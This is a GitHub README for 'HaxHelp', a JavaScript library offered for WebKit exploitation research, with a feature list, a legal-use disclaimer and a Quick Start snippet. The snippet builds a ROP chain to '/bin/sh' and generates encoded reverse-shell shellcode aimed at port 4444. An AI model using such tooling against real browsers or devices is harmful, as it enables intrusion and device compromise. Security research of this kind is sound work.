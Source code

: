 # HaxHelp - Advanced WebKit Exploitation Framework

A comprehensive JavaScript library designed to aid security researchers in WebKit vulnerability analysis and exploit development. Also check out [jitPhone!](https://github.com/SammyLord/jitphone)

## ⚠️ Legal and Ethical Use Only

This library is intended for:
- Security research and vulnerability analysis
- Bug bounty hunting on authorized targets
- Penetration testing with proper authorization
- Educational purposes in controlled environments
- Defensive security research

**DO NOT use this library for malicious purposes or on systems you don't own or have explicit permission to test.**

## Features

### Core Utilities
- **Memory Management**: Advanced heap grooming, garbage collection control, memory corruption detection
- **Object Inspection**: Deep object analysis, property enumeration, prototype chain inspection
- **Type Confusion**: Advanced utilities for type confusion vulnerability research
- **ROP Chain Building**: Comprehensive return-oriented programming chain construction
- **Debugging**: Advanced debugging and introspection tools with crash analysis
- **Shellcode**: Shellcode generation, encoding, and payload management

### WebKit Specific
- **JIT Analysis**: JavaScript JIT compiler analysis and manipulation tools
- **Engine Internals**: WebKit/JavaScriptCore internals exploration and exploitation
- **DOM Manipulation**: Advanced DOM object manipulation and corruption techniques
- **Memory Layout**: Heap layout analysis, visualization, and controlled corruption
- **Browser Exploitation**: Browser-specific exploitation techniques and primitives

### Advanced Exploitation
- **Use-After-Free**: UAF vulnerability simulation and exploitation frameworks
- **Buffer Overflow**: Advanced buffer overflow detection and exploitation tools
- **Information Disclosure**: Memory disclosure and information leakage techniques
- **Privilege Escalation**: Browser sandbox escape and privilege escalation utilities
- **Exploit Development**: Complete exploit development and testing framework

## Installation

```html
<script src="haxhelp.js"></script>
```

## Quick Start

```javascript
// Initialize the library
const hh = new HaxHelp();

// Advanced memory manipulation
hh.memory.advancedGrooming(0x1000, 200, 'controlled');

// Object analysis with exploitation focus
const analysis = hh.inspect.deepAnalyze(targetObject, 'exploitation');

// ROP chain building with automatic gadget discovery
const ropChain = hh.rop.autoChain({
    target: 'system_call',
    args: ['/bin/sh'],
    constraints: ['no_null_bytes'],
    architecture: 'arm64' // for devices such as nintendo switch and iphones
});

// Advanced shellcode generation
const shellcode = hh.shellcode.generate({
    type: 'reverse_shell',
    host: '127.0.0.1',
    port: 4444,
    encoding: 'alphanumeric'
});
```

## Documentation

See the `docs/` directory for detailed documentation and examples.

## Responsible Disclosure

If you discover vulnerabilities using this library, please follow responsible disclosure practices and report them to the appropriate vendors through official channels.

## License

MIT License - See LICENSE file for details.

## Author

Created by Sammy Lord - Advanced vibe coder.

## Contributing

Contributions are welcome! Please ensure all contributions align with responsible security research practices. 
